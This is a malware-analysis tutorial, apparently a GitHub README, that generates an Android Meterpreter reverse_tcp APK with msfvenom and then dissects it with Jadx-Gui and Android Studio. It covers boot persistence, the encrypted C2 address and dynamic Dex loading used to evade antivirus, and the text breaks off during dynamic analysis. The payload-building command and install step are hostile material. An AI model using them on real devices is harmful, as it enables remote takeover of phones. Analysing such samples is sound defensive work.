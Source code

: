 # Analysing MSFVenom Android Payload (Malware)

MSFVenom is one of the most popular framework to create payloads, shellcodes, etc. I want to analyse a little bit a MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distibution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute below command after you exit from ssh
vagrant halt
```

Simply execute below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)

After that, I copy **malicious.apk** to `/vagrant` which let me to access it from my computer.
```bash
cp malicious.apk /vagrant
```
## 🎬 Part 2 - Static Analysis with Jadx-Gui

Now I have **malicious.apk** besides **Vagrantfile**. Let's start static analysis.
Open it with Jadx-Gui. Let's see what AndroidManifest.xml does have for us.

![1](https://user-images.githubusercontent.com/36133745/166328267-ec5c9ddb-8230-46af-a575-adfddb1e6d27.png)

We have an activity called `MainActivity` (package: `com.metasploit.stage`) which is our first activity that'll execute.

![2](https://user-images.githubusercontent.com/36133745/166329390-42daa913-cba3-47cf-a4a4-2e2a4c920286.png)

We can also see there is a `BroadcastReceiver` with `android.intent.action.BOOT_COMPLETED` action. It is obvious that this malware use this permission to execute itself after restarting mobile.

![3](https://user-images.githubusercontent.com/36133745/166330015-7593e85c-5e8b-41fc-8b68-32822610297c.png)

Let's have a look at `MainActivity`. It simply calls `startService()` method from `MainService` class.

![4](https://user-images.githubusercontent.com/36133745/166330313-13e44b33-d638-415b-8e96-2b58dd130cce.png)

`MainService` class extended (inherited) from Service, so it's a service that we are dealing with.

![5](https://user-images.githubusercontent.com/36133745/166335467-a7932269-6aeb-466d-b9a2-564b14362811.png)

In this method again `startService` function called, but as we said we are in a service and it calls `MainService.class` in `Intent()`.
```java
public static void startService(Context context) {
    context.startService(new Intent(context, MainService.class));
}
```

So this time `onStartCommand()` method will call. `onStartCommand()` is called every time a client starts the service using `startService(Intent intent)`.

![6](https://user-images.githubusercontent.com/36133745/166336169-c9477814-cce5-4b93-88a8-65e24d209fd1.png)

This method, calls `start()` from `Payload` class. Now let's go deeper and see what `start()` method does.

![7](https://user-images.githubusercontent.com/36133745/166661952-7600a5cf-7f6d-439a-9e00-56d015cabfc1.png)

`start()` function calls `startInPath()` function, and `startInPath()` function calls `e().start()` that lead us to analyse that class and method.

![8](https://user-images.githubusercontent.com/36133745/166662358-72e3cd42-f85c-4539-9df1-311b01198ed2.png)

There is nothing but execute `main()` method from `Payload` class again. We have to back where we were and analyze `main()` function.

![9](https://user-images.githubusercontent.com/36133745/166662629-60f69553-b52f-451d-95b3-54b8dca90517.png)

It's a huge function that can't be even fit in one screenshot. We can see there is a `Socket socket` which indicates we are dealing with a socket connection that's probably attacker C2. Also there is a line contains `a a2 = b.a(a);`. It passes `a` variable to `b.a()` method and save results in `a2`. Left-click on `a` parameter and press `d` on your keyboard (that is a shortcut to get you where variable is decalred).

![10](https://user-images.githubusercontent.com/36133745/166663408-d2ac014a-df8f-429f-aa2c-00d5f090a1e9.png)

It seems a huge array which i guess it can be an IP address or an URL. To make sure of this, I go to `b.a()` method.

![11](https://user-images.githubusercontent.com/36133745/166663788-8a4c2e27-2b9d-4e75-b698-266b7faf0ef0.png)

Again it's a huge function, but this is obvious it decrypts that array. I don't want to waste of my time and try to understand that algorithm, I'll deal with it in dynamic analysis part. But we have to figure it out where it stores the decrypted data. You can see `gVar` everywhere in this function.

![12](https://user-images.githubusercontent.com/36133745/166664915-cee79b68-cb99-46dd-bc10-af7a29f91f48.png)

If you open `g()` class, you can see there is nothing but bunch of variables. Now I'm sure it stores the decrypted data in that class's variables.

![13](https://user-images.githubusercontent.com/36133745/166665135-c1c47aa9-a4d6-416a-9abc-cce98874e327.png)

In the `Payload.main()`, after that decryption method, we can see bunch of `while(){}`, `try{}` and `if(){}`.

![14](https://user-images.githubusercontent.com/36133745/166667336-c7e6bacd-461b-497c-864d-919407e9e453.png)

Take a look at where I pointed (ofc with red arrow).

![15](https://user-images.githubusercontent.com/36133745/166668085-a8945a36-98e1-4715-b294-7dc6957edf14.png)


You can see we have a `socket.getOutputStream()` there that passed to `a()`. If you go to where `a()` declared, you see there's `getClassLoader()`. This method let you load the Dex file dynamically. It uses to bypass AV, besides it makes APK file size smaller.

Overall, this APK file connects to attacker C2 (MSFVenom) and downloads a Dex (or JAR) file, loads it and after that, it will be deleted. Now Let's continue our journey in dynamic analysis part.

## 🎬 Part 3 - Dynamic Analysis

First of all, I use `adb` to install our payload.
```shell
adb install malicious.apk
```
Now for the second step of dynamic analysis, I want to extract attacker C2 IP address. As we saw in static analysis, decrypted attacker IP address is in the `g()` class. Let's dump data from that class. I use **Android Studio** to do this. But an important things that worth to mention is "We have to do this quickly before malware close itself and run itself as a service", because you saw it creates a service after exectuion. Make sure your USB Debuggign is enabled.

![16](https://user-images.githubusercontent.com/36133745/166671370-f434b2af-8130-4f7c-836b-f10a8b211d5f.png)

But we have to do one thing more before debugging. We have to make this malicious APK debuggable. To do this as easy as possible, I do this with **[APKLab](https://github.com/APKLab/APKLab)**. The installation steps explained in **[APKLab Github](https://github.com/APKLab/APKLab)**.

Now open malicious APK file with APKLab, Then Right-click on `apktool.yml` and Left-click on `APKLab: Rebuild the APK`.

![18](https://user-images.githubusercontent.com/36133745/166682924-ea6c990f-9445-48f8-b3f6-fc87a6797b9d.png)


Open **Android Studio** and choose **Profile or Debug APK**.

![17](https://user-images.githubusercontent.com/36133745/166672132-90e6ce28-5444-4675-baba-527b93b11960.png)


Now instead of sending 10 images, I would rather to make a GIF to show the process how to extract data from `g()` class.


